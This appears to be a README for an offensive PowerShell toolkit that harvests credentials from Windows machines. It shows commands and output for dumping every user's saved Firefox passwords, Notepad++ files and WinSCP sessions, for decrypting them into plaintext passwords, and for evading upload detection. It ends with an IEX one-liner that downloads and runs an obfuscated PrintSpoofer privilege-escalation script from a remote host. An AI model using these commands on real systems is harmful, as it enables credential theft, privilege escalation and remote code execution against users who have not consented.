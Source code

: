A set of scripts to help gathering credentials from Windows devices, especially usefull if there are hundreds of users on the machine.

The scripts should be run as a **high privileged user** to gather as much information as possible.

---

# firefox_dump.ps1
This script will loop through all users under `C:\Users` and dump all saved credentials from Mozilla Firefox profiles. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\firefox_dump.ps1
[-] 'Public' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'user' to: C:\Users\void\AppData\Local\Temp\user\firefox\ahf32hh2.default-release
[+] Dumping secrets from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\firefox\plhh3lmm.default-release
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'void' to: C:\Users\void\AppData\Local\Temp\void\firefox\plmxz1zm.default-release
```

If you don't want to upload files to the target host simply copy-paste the try-catch code from the script and run it as is in PowerShell.
Decrypt the information with  [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.
```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
---

# notepad_dump.ps1
This script will loop through all users under `C:\Users` and dump all roaming text files from Notepad++. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\notepad_dump.ps1
[-] 'Public' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'user' to: C:\Users\void\AppData\Local\Temp\user\notepad++
[+] Dumping Notepad++ data from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\notepad++
[-] 'user3' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'void' to: C:\Users\void\AppData\Local\Temp\void\notepad++
```

---

# winscp_dump.ps1
This script will loop through all users in the registry (HKLM) and dump all saved winscp sessions.
## Exampe Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\winscp_dump.ps1
[+] User: void - Session: root@127.0.0.1
  HostName: 127.0.0.1
  UserName: root
  EncPassword: A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF

[+] Saved all output to logfile: C:\Users\void\AppData\Local\Temp\winscp_dump.log
```

Decrypt the encrypted password with [`WinSCPDec.py`](https://gist.github.com/tijldeneut/69717c56de3e16e97516a1964fa49bfd) or similar.
```bash
apt-kali :: ~ » python3 WinSCPDec.py --host=127.0.0.1 --user=root --pass=A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF
[+] Succes!
     ThisIsMySecretPasswd!"#1!"#
```

---

# obf_ps.ps1
Obfuscated PrintSpoofer script.
```powershell
> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/0xPThree/Windows-Harvesting/refs/heads/main/obf_ps.ps1')
[-] Please specify a command to execute

## If error: "The request was aborted: Could not create SSL/TLS secure channel."
> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 
```
